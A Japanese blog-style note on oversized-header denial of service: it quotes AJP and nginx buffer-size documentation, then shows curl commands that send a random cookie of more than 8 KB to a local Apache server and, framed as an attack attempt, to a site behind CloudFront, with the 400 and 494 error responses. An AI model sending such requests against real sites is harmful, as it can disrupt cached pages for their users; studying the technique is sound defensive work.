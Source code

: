 > パケットサイズ  
> 多くのコードでそうなっているのですが、パケットサイズの最大サイズは 8 * 1024 (8K) です。パケットの実際の長さはヘッダに エンコードされて入っています。  
> 
> パケットヘッダ  
> サーバからコンテナに送出されるパケットは 0x1234 で始まります。 コンテナからサーバに送られるパケットは AB (ASCII コード A と ASCII コード B) で始まります。この二バイトの後に、ペイロード長が (上記の形式で) 続きます。このため、ペイロード長の最大値は 2^16 にできるように思えますが、 実際にはコードでは最大値は 8K に設定されています。  

<i class="fas fa-external-link-alt"></i> [Nginx - Module ngx_http_core_module](http://nginx.org/en/docs/http/ngx_http_core_module.html#large_client_header_buffers)  

> Sets the maximum number and size of buffers used for reading large client request header. A request line cannot exceed the size of one buffer, or the 414 (Request-URI Too Large) error is returned to the client. A request header field cannot exceed the size of one buffer as well, or the 400 (Bad Request) error is returned to the client. Buffers are allocated only on demand. By default, the buffer size is equal to 8K bytes. If after the end of request processing a connection is transitioned into the keep-alive state, these buffers are released.  

確かに記事のとおりのようだ  
CDNなどを利用していてキャッシュを最大限に活用したい場合多くはヘッダー情報でキャッシュの細分化などせず URL とクエリくらいだろう  
こんなの簡単にエラーを引き起こせてしまうやんけ  

試してみる  
8Kを超えるようなヘッダを作るため適当な cockie ファイルを作成し  
Apacheにアクセスしてみると 400 エラーが起こせる  

```
$ head -c 8193 /dev/urandom |base64 > urandom_1m.txt
$ tr -d '\n' < urandom_1m.txt > urandom.txt
$ keyvalue=$(cat urandom.txt) ;curl -I -u hogehoge:hogehoge -b "hoge=$keyvalue" http://localhost:80/

HTTP/1.1 400 Bad Request
Date: Thu, 24 Oct 2019 10:35:29 GMT
Content-Type: text/html; charset=iso-8859-1
Connection: keep-alive
Server: Apache

```

Cloudfront 経由で攻撃しようとしてみると  

```
$ keyvalue=$(cat urandom.txt) ;curl -I -u hogehoge:hogehoge -b "hoge=$keyvalue" http://hogehoge.com/

HTTP/2 494
server: CloudFront
date: Thu, 24 Oct 2019 10:35:07 GMT
content-type: text/html
content-length: 915
x-cache: Error from cloudfront
via: 1.1 95359b6e9b0852dc0d0d6b83ac77df4b.cloudfront.net (CloudFront)
x-amz-cf-pop: NRT57-C2
x-amz-cf-id: K1SxVFrwyDl1IUaOMAxc8N3RASvFa_SPIMY6EoVsL-MUamr4K9wZUQ==
```
